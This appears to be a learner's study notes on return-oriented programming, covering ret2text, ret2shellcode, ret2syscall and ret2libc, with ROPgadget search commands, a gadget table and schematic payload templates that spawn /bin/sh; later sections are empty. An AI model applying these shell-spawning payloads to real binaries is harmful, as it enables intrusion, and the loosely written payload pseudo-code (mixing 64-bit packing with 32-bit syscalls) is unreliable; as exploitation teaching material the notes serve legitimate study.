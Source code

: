 # What's ROP?
When we face the challenge of NX on the stack, we need to change our attack way. For example, use gadget in memory to change the register value, when we finish the change the call system(), we can get the shell, and this is ROP! The gadget of ROP usually ends with **ret**, because we need to use the **ropchain** to append another action.  
Fowllowing are the condition we need to fullfill before we start ROP:  
1. Overflow to get return address  
2. We can find gadgets, if PIE is open, we also should leak the address of gadgets!  
  
## Learn by Breaking it  
1. ret2text  
2. ret2shellcode (The first and the second one are return to the place which has static address such as .bss  
3. ret2syscall  
Get your ROPchain: To **execve("/bin/sh",NULL,NULL)**, we need following gadgets  
e.g.  
ROPgadget --binary ./elf > dump  
cat dump | grep "pop eax ; ret"  
e.g.  (x86)  
ROPgadget --binary ./elf --only 'pop|ret' | grep "eax"  
ROPgadget --binary ./elf --string '/bin/sh'  
ROPgadget --binary ./elf --only 'int'  
Gadgets | Details  
------- | -------
pop eax ; ret | To set eax as 0xb  
pop ebx ; ret | To set ebx as /bin/sh or sh address  
pop ecx ; ret or xor ecx | To set ecx as null  
pop edx ; ret or xor rdx | To set edx as null  
Because we cannot expect finding gadgets in consecutive memory, so we should find gadgtes and return to there.  
payload = 'padding' + p64(pop-eax-ret) + 0xb + p64(pop-edx-ecx-ebx-ret) + 0 + 0 + sh-addr + int0x80-addr  
4. ret2libc  
Return to plt, but we should know the real address of function first.  
payload = "padding" + system-plt + 'p'x4 + p64(sh-addr)  
why we need to **padding 4 bytes** right after we call system?  
Be careful that sh-addr is the argument of system(), the padding is for ret address of system()!  
However, if we don't have the address of /bin/sh, we also can write by ourselves!!  
buf = place in .bss  
payload = 'padding' + gets-plt + pop-ebx + buf + system-plt + 0xdeadbeef + buf  
r.sendline(payload)  
r.sendline('/bin/sh')  
An interesting trick, right?  
I have always use the showing function of program to leak the GOT. However, I face a challenge...  
I will put this kind of fresh new payload in the ret2libc-good-luck.py in the above!!  
In conclusion, I would recommend the last one for most, because we should always leak our real address, only by the already running function the got will be replaced with the real address, therefore I will choose **libc_start_main** to help me success!!  
  
## Shell  
Some concept you need to be aware of:  
1. We need to write shellcode in the executable section  
2.  
  
## Advanced 
  
## Practice  

